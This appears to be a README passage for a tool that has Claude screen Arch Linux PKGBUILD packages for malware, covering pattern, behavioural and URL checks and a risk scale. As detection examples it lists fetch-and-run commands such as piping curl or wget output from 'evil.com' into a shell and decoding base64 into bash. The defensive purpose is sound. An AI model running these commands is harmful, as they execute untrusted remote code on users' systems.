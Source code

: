 4. **Claude's Analysis Method**

   Claude performs a comprehensive security review by:

   #### a) **Pattern Recognition**
    - Searches for known malware patterns from recent attacks
    - Identifies suspicious command combinations
    - Detects obfuscation techniques

   #### b) **Code Analysis**
   ```bash
   # Claude looks for patterns like:
   curl malicious-url | bash
   wget -O- evil.com | sh
   python -c "$(curl ...)"
   echo "base64string" | base64 -d | bash
   ```

   #### c) **Behavioral Analysis**
    - Network connections to unknown hosts
    - File system modifications outside package scope
    - Persistence mechanisms (systemd, cron, bashrc)
    - Privilege escalation attempts

   #### d) **URL Verification**
    - Checks for suspicious domains
    - Identifies URL shorteners
    - Detects pastebin-like services
    - Validates source URLs against expected patterns

### Claude's Review Methodology

```
┌─────────────────────────────────────────┐
│           CLAUDE'S ANALYSIS             │
├─────────────────────────────────────────┤
│ 1. Parse PKGBUILD                       │
│    ├─ Check source URLs                 │
│    ├─ Analyze build() function          │
│    ├─ Review install hooks              │
│    └─ Validate checksums                │
├─────────────────────────────────────────┤
│ 2. Scan Additional Files                │
│    ├─ Shell scripts (.sh)               │
│    ├─ Install scripts (.install)        │
│    ├─ Patch files (.patch)              │
│    └─ Configuration files               │
├─────────────────────────────────────────┤
│ 3. Threat Detection                     │
│    ├─ Known malware signatures          │
│    ├─ Suspicious behavior patterns      │
│    ├─ Obfuscation techniques            │
│    └─ Unusual system modifications      │
├─────────────────────────────────────────┤
│ 4. Risk Assessment                      │
│    ├─ CRITICAL: RCE, RAT, ransomware    │
│    ├─ HIGH: Data theft, backdoors       │
│    ├─ MEDIUM: Tracking, adware          │
│    └─ LOW: Minor privacy concerns       │
└─────────────────────────────────────────┘
```
